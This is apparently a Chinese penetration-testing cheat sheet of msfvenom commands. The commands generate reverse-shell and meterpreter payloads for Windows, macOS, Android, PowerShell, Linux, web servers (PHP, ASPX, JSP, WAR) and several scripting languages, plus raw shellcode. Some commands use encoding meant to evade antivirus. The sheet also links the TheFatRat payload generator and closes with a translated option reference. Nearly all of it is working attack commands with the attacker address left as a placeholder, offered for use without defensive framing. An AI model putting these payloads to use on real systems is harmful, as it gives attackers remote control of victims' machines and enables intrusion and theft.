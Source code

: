 
### windows:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp 
LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o payload.exe
```
### mac:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f macho -o payload.macho
``` 

### android:
```bash
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f apk -o payload.apk
```

### powershell:
```bash
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
```

### linux:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f elf -o payload.elf
```

### php:
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### aspx:
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
```
### jsp:
```bash
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.jsp
```

### war:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw - o payload.war
```

### nodejs:
```bash
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.js
```

### python:
```bash
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.py
```

### perl:
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.pl
```
### ruby:
```bash
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.rb
```

### lua:
```bash
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o payload.lua
```

### windows shellcode:
```bash
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### linux shellcode:
```bash
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### mac shellcode:
```bash
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f c
```

### 便捷化payload生成：

项目地址：
https://github.com/Screetsec/TheFatRat

```bash
root@John:~/Desktop# git clone https://github.com/Screetsec/TheFatRat.git
//设置时需要挂墙
```  
![](/img/492800d0d4d9ed8b762c3494bc845363.jpg)  

![](/img/6eeb8e3d9370ca202dd0b45abe2e8756.jpg)  

![](/img/a43ce02f6b76b5f01b8697c215bad11d.jpg)  

![](/img/58459088b75ecdcc093e435a5a586638.jpg)  


### 附录：

中文使用说明：
```bash
Options:

-p, --payload <payload> 使用指定的payload
--payload-options 列出该payload参数
-l, --list [type] 列出所有的payloads
-n, --nopsled <length> 为payload指定一个 nopsled 长度
-f, --format <format> 指定payload生成格式
--help-formats 查看所有支持格式
-e, --encoder <encoder> 使用编码器
-a, --arch <arch> 指定payload构架
--platform <platform> 指定payload平台
--help-platforms 显示支持的平台
-s, --space <length> 设定payload攻击荷载的最大长度
--encoder-space <length> The maximum size of the encoded payload

(defaults to the -s value)
-b, --bad-chars <list> 指定bad-chars 如: '\x00\xff'
-i, --iterations <count> 指定编码次数
-c, --add-code <path> 指定个win32 shellcode 文件
-x, --template <path> 指定一个 executable 文件作为模板
-k, --keep payload自动分离并注入到新的进程
-o, --out <path> 存放生成的payload
-v, --var-name <name> 指定自定义变量
--smallest Generate the smallest possible payload
-h, --help 显示帮助文件
```
>   Micropoor
